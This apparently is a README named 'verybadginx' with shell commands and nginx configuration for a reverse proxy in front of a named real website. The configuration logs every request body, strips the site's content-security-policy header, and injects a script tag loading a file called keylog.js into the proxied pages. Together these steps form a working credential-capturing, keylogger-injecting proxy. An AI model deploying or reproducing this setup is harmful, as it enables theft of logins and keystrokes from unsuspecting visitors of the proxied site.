 # verybadginx

#### Download nginx with modules

cd /tmp;
curl -L -O 'https://github.com/openresty/echo-nginx-module/archive/v0.58.tar.gz';
tar -xzvf v0.58.tar.gz && rm v0.58.tar.gz;
mv echo-nginx-module-0.58 /tmp/echo-nginx-module;
curl -O 'http://nginx.org/download/nginx-1.9.7.tar.gz';
tar -xzvf nginx-1.9.7.tar.gz && rm nginx-1.9.7.tar.gz;
git clone https://github.com/openresty/replace-filter-nginx-module;

####  Create user/group nginx
groupadd nginx
useradd -g nginx nginx

####  Install nginx with modules

cd nginx-1.9.7/ && ./configure \
 --user=nginx \
 --group=nginx \
 --prefix=/etc/nginx \
 --sbin-path=/usr/sbin/nginx \
 --conf-path=/etc/nginx/nginx.conf \
 --pid-path=/var/run/nginx.pid \
 --lock-path=/var/run/nginx.lock \
 --error-log-path=/var/log/nginx/error.log \
 --http-log-path=/var/log/nginx/access.log \
 --add-module=/tmp/echo-nginx-module \
 --add-module=/tmp/replace-filter-nginx-module \
 --without-http_rewrite_module


#### Modif nginx.conf
http {

add 	log_format custom '$request_body';

add	access_log /var/log/nginx/access.log custom;

del     include /etc/nginx/sites-enabled/*;

add      include /etc/nginx/sites-enabled/default;

#### Modif sites-available/default et sites-enabled/default


location / {
	
add		echo_read_request_body;

add		proxy_pass http://www.microplus.fr/;

add		subs_filter "sting_to_remplace" "sting_to_remplace<script/src='https://www.microplus.fr/secu/images/test/keylog.js'>
</script>" -o;

add		sub_filter_once on;

add		proxy_set_header Accept-Encoding "";

add		proxy_hide_header content-security-policy; 
	

